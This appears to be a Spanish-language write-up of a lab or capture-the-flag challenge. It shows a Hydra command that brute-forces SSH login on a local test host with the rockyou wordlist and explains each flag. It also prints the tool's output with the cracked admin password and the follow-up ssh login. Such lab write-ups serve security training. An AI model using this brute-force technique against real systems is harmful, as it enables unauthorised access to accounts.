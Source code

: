 # Solucion para el reto 4

## Comando utilizado para la obtención de la contraseña para el usuario admim

```cs
hydra -s 2222 -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 8 ssh://127.0.0.1 -v -f
```
![Comando de ataque](image.png)


- Hydra: Llamamos la herramienta de Hydra.
- -s: Definimos el número de puerto usado para el ejercicio, ejemplo **2222**.
- -l: Definimos el nombre del usuario para la conexión, ejemplo **admin**.
- -P: Definimos el diccionario de contraseñas a usar para el ataque, **/usr/share/wordlists/rockyou.txt**.
- -e nsr: Definimos como entrada la opcion de una contraseña vacia(**n**), el nombre de usuario como contraseña(**s**), el nombre de usuario con las letras invertidas(**r**).
- -t: Definimos el número de tareas en paralelo, ejemplo **8**.
- ssh: Definimos el protocolo victima, ejemplo **SSH**.
- IP: Definimos la IP de la victima, ejemplo **//127.0.0.1**.
- -v: Activamos el modo Verbose, para ver información detallada del ataque.
- -f: Termina el ataque cuando encuentre una contraseña valida.


## Resultado del comando


```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-26 21:04:04
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344402 login tries (l:1/p:14344402), ~1793051 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://admin@127.0.0.1:2222
[INFO] Successful, password authentication is supported by ssh://127.0.0.1:2222
[STATUS] 88.00 tries/min, 88 tries in 00:01h, 14344314 to do in 2716:44h, 8 active
[STATUS] 82.67 tries/min, 248 tries in 00:03h, 14344154 to do in 2891:58h, 8 active
[2222][ssh] host: 127.0.0.1   login: admin   password: smokey
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-26 21:07:50
```
![Contraseña para admin](image-1.png)

## Conexión con el servicio SSH

Probamos la conectividad con las credenciales obtenidas

```cs
ssh admin@127.0.0.1 -p 2222 
```




